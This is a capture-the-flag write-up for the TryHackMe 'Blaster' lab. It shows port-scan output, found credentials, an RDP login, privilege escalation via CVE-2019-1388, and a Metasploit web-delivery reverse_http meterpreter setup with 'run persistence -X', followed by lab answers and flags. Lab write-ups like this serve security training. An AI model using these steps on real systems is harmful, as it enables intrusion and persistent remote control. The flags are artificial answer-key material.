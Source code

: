 # BLASTER

![](../.gitbook/assets/60ffd963714444b792d6aa3dfe2baf36.png)

## NMAP SCAN

```text
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql         MySQL (unauthorized)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2020-10-04T21:15:06+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2020-05-21T21:44:38
|_Not valid after:  2020-11-20T21:44:38
|_ssl-date: 2020-10-04T21:15:14+00:00; -1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-10-04T21:15:09
|_  start_date: 2020-10-04T21:13:13
```

## PORT 80 ENUMERATION

* With dirsearch Found:

/retro

Users: Wade

![](../.gitbook/assets/83314bdd3f1041c197dc04bad3ab884f.png)

![](../.gitbook/assets/d775c7b584cc4dcf98f6b0248b9b31c5.png)

```text
wade:parzival
```

## RDP

Log in with the creds found 

![](../.gitbook/assets/cd633bc8fcde434fb5e19b236b666e62.png)

![](../.gitbook/assets/5bb02ded53f040dcb9ef4935533181fa.png)

## PRIV ESC

![](../.gitbook/assets/235cae8c2f534445a186097d46d98472.png)

![](../.gitbook/assets/dd8b3a3b5a964c60b263c41f3d17b4c4.png)

* Run as administrator
* Show more details
* Show information about the publisher's certificate

![](../.gitbook/assets/6828fa4bad134bac8d9fac4758f1ca0b.png)

* Click in Issued by:

![](../.gitbook/assets/501a4fcefc954d5ab81918c74c0fc640.png)

* save as

![](../.gitbook/assets/71aed8e36d5c418ea714495aa0eca954.png)

![](../.gitbook/assets/c217f483ce52419a8831aad768118c8f.png)

* Right click in cmd and choose open

![](../.gitbook/assets/adcf1998210f459cafce9388dea1c643.png)

![](../.gitbook/assets/4617868b2459402297c6b964c7d70330.png)

## PERSISTENCE

![](../.gitbook/assets/c228ec6116ee48d1a0db432188e6fd30.png)

![](../.gitbook/assets/318f235dc0ce46e59779d1d9d513f754.png)

![](../.gitbook/assets/2c71a5b95b1d4e6c922871a0dec551ce.png)

* run persistence -X to get a shell always after a reboot

## ANSWERS

1. How many ports are open on our target system?

```text
 2
```

1. Looks like there's a web server running, what is the title of the page we discover when browsing to it?

```text
IIS Windows Server
```

1. Interesting, let's see if there's anything else on this web server by fuzzing it. What hidden directory do we discover?

```text
/retro
```

1. Navigate to our discovered hidden directory, what potential username do we discover?

```text
wade
```

1. Crawling through the posts, it seems like our user has had some difficulties logging in recently. What possible password do we discover?

```text
parzival
```

1. Log into the machine via Microsoft Remote Desktop \(MSRDP\) and read user.txt. What are it's contents?

```text
THM{HACK_PLAYER_ONE}
```

1. When enumerating a machine, it's often useful to look at what the user was last doing. Look around the machine and see if you can find the CVE which was researched on this server. What CVE was it?

```text
CVE-2019-1388
```

1. Looks like an executable file is necessary for exploitation of this vulnerability and the user didn't really clean up very well after testing it. What is the name of this executable?

```text
hhupd
```

1. Research vulnerability and how to exploit it. Exploit it now to gain an elevated terminal!

```text
No answer needed
```

1. Now that we've spawned a terminal, let's go ahead and run the command 'whoami'. What is the output of running this?

```text
nt authority\system
```

1. Now that we've confirmed that we have an elevated prompt, read the contents of root.txt on the Administrator's desktop. What are the contents? Keep your terminal up after exploitation so we can use it in task four!

```text
THM{COIN_OPERATED_EXPLOITATION}
```

1. Return to your attacker machine for this next bit. Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery! For this, we'll be using the script web delivery exploit within Metasploit. Launch Metasploit now and select 'exploit/multi/script/web\_delivery' for use.

```text
No answer needed
```

1. First, let's set the target to PSH \(PowerShell\). Which target number is PSH?

```text
2
```

1. After setting your payload, set your lhost and lport accordingly such that you know which port the MSF web server is going to run on and that it'll be running on the TryHackMe network.

```text
No answer needed
```

1. Finally, let's set our payload. In this case, we'll be using a simple reverse HTTP payload. Do this now with the command: 'set payload windows/meterpreter/reverse\_http'. Following this, launch the attack as a job with the command 'run -j'.

```text
No answer needed
```

1. Return to the terminal we spawned with our exploit. In this terminal, paste the command output by Metasploit after the job was launched. In this case, I've found it particularly helpful to host a simple python web server \(python3 -m http.server\) and host the command in a text file as copy and paste between the machines won't always work. Once you've run this command, return to our attacker machine and note that our reverse shell has spawned. 

```text
No answer needed
```

1. Last but certainly not least, let's look at persistence mechanisms via Metasploit. What command can we run in our meterpreter console to setup persistence which automatically starts when the system boots? Don't include anything beyond the base command and the option for boot startup. 

```text
run persistence -X
```

1. Run this command now with options that allow it to connect back to your host machine should the system reboot. Note, you'll need to create a listener via the handler exploit to allow for this remote connection in actual practice. Congrats, you've now gain full control over the remote host and have established persistence for further operations!

```text
No answer needed
```

## OTHER WAY

![](../.gitbook/assets/3c83e5a7ab1b4dec94eb149183c3ac3e.png)

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

